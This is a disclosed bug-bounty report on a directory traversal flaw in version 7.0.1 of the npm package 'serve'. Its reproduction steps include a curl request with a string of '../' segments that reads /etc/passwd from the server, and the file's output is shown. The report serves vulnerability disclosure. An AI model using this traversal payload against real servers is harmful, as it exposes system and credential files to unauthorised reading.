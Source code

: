 # [serve] Server Directory Traversal

## Report Details
- **Report ID**: 358645
- **URL**: https://hackerone.com/reports/358645
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-05-29T06:04:10.003Z
- **Disclosed**: 2018-07-02T08:48:11.943Z

## Reporter
- **Username**: tungpun
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a Server Directory Traversal vulnerability in **serve**.
It allows reading local files on the target server.

# Module

**module name:** serve
**version:** 7.0.1
**npm page:** https://www.npmjs.com/package/serve

## Module Description

*Assuming you would like to serve a static site, single page application or just a static file (no matter if on your device or on the local network), this package is just the right choice for you.*

*It behaves exactly like static deployments on Now, so it's perfect for developing your static project. Then, when it's time to push it into production, you deploy it.*

*Furthermore, it also provides a neat interface for listing the directory's contents*

# Vulnerability

## Steps To Reproduce:

* Install the module

`$ npm i serve`

* Start the server

`$ ./node_modules/serve/bin/serve.js`

* Using the below request to access the file `/etc/passwd` on the target server:

```
$ curl --path-as-is 'http://127.0.0.1:3000/../../../../../../etc/passwd'
##
# User Database
#
# Note that this file is consulted directly only when the system is running
# in single-user mode.  At other times this information is provided by
# Open Directory.
#
# See the opendirectoryd(8) man page for additional information about
# Open Directory.
##
nobody:*:-2:-2:Unprivileged User:/var/empty:/usr/bin/false
root:*:0:0:System Administrator:/var/root:/bin/sh
daemon:*:1:1:System Services:/var/root:/usr/bin/false
...
```

## Supporting Material/References:

* macOS High Sierra 10.13.4
* node v8.10.0
* npm 6.1.0
* curl 7.54.0

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

It allows reading local files on the target server

## Attachments
No attachments
